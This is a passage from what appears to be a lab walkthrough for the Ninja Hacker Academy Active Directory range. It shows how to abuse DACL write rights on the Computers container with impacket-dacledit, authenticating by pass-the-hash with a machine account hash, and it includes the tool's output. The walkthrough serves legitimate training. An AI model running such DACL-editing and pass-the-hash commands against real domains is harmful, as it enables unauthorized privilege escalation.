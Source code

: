 There are lots of articles around on how to use and abuse DACL in an AD environment, however they usually all focus on a User/Computer level. While bloodhound gives some suggestions on how this is abused it requires a tool called `dacledit` which is part of the `impacket` toolsuite. In this case we must find a way how we can manipulate the container to sent the rights also to the `WEB` machine. Granting rights can be done in various ways and quite a few are decribed here at the website of the [Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/). 

The hacker recipes Website actually also tells us about another tool that can also achieve the same thing called [BloodyAD](https://github.com/CravateRouge/autobloody) but I never used that one so I will be sticking with `impacket-dacledit`. First let's start by adding the DNS names of the environment to our `/etc/hosts` file.

```shell
#Adding NHA Lab
10.3.10.30 dc-vil.ninja.hack dc-vil
10.3.10.31 dc-ac.academy.ninja.lan dc-ac
10.3.10.32 web.academy.ninja.lan web
10.3.10.33 sql.academy.ninja.lan sql
10.3.10.34 share.academy.ninja.lan share
```

and now we can try to edit the DACL of the domain.

```shell
impacket-dacledit -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :64282bb1ee9dac25123ca1295d5e1337 -inheritance -dc-ip 10.3.10.31

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20241130-170414.bak
[*] DACL modified successfully!
```

It seems the command ran succesfully, let's update our Bloodhound data and see if it indeed updated the inheritance. 

![Ninja Hacker Academy RBCD Enabled](../assets/img/nha-guide/Bloodhound-rcbd.png)
